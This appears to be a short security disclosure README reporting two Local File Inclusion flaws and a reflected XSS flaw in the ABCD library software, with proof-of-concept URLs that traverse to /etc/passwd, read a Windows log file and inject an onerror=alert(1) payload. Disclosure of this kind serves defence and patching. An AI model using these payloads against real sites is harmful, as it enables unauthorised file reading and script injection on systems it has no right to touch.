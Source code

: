 # Local File Inclusion and XSS in **ABCD Community**
## Vulnerable software: https://abcd-community.org/

https://github.com/ABCD-Community/development

There are two **Local File Inclusion** vulnerabilities in ABCD software:  
<br>
**show_image.php**   
**otros_sitios.php**

Examples:<br>
www[.]XXXXX[.]com[.]br/common/show_image.php?image=../../../../../../../etc/passwd&base=arquivo
<br>
www[.]XXXXX[.]com[.]br/abcd/opac/php/otros_sitios.php?sitio=C:/Windows/debug/NetSetup.log&submenu=N
<br>
<br>
<br>
A **XSS vulnerability** was found in the **Sub_Expresion** parameter on buscar_integrada.php file:
<br>
<br>
<br>
www[.]XXXXX[.]com[.]br/buscar_integrada.php?alcance=&IR_A=&campo=Se%EF%BF%BD%EF%BF%BDo&LastKey=fdsfadsa&base=arquivo&Diccio=4-1&**Sub_Expresion**=%22fda%3Cinput%3E%3Cinput%3Esfdafds%22&Sub_Expresiones=&Navegacion=&Expresion=&Campos=TW_+~~~+REF_+~~~+DAL_+~~~+FUL_+~~~+SEC_+~~~+SPL_+~~~+GDL_&Operadores=and+~~~+and+~~~+and+~~~+and+~~~+and+~~~+and&modo=1B&llamado_desde=avanzada.php&lang=pt&resaltar=S&prefijo=SEC_&Opcion=buscar_diccionario&Seleccionados=%22fdsaf%22

<br>

www[.]XXXXXXX[.]com/opac/php/buscar_integrada.php?lang=pt&base=acervo&modo=1B&alcance=and&Opcion=libre&prefijo=TW_&Sub_Expresion=MG_00056fas%3Caudio%20src/onerror=alert(1)%3E
